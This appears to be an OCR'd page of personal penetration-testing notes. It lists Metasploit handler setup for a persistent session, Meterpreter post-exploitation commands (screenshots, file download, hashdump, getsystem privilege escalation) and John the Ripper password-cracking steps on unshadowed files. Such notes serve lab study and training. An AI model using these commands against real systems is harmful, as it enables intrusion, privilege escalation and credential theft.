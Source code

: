 then we are able to open a session even after the reboot with:
```
use exploit/multi/handler
set payload, lhost and port
```

with meterpreter we can:
```
- screenshot > to grab the screen of the target
```

```bash
# [in the attack machine] 
eog /path of the screenshoot
download <file> or  "/path"
upload <file> /path
sysinfo
ps #running proccess
whoami /priv
help #to see all commands
hashdump
search -f <file>
```

```bash
getuid #WINXP-ftp
getsystem >> this give us escalate privileges, now we are NT AUTHORITY\SYSTEM
getuid #AUTHORITY\SYSTEM
sysinfo
```


## JOHN
bruteforce:

```bash
--list=formats  #to see all formats available
```

after get the shadow and passwd files:
```bash
unshadow passwd shadow > crackme
```

```bash
john -incremental -users:victim crackme
john --show crackme #to see the result
```

dictionary:
```bash 
john -w=/<wordlist> <file>
-rules #to add mangling example PASSWORD in the wordlist, mangling = password, passw0rd etc
```


rainbow tables:
- tools: ophcrack #its used only for Windows
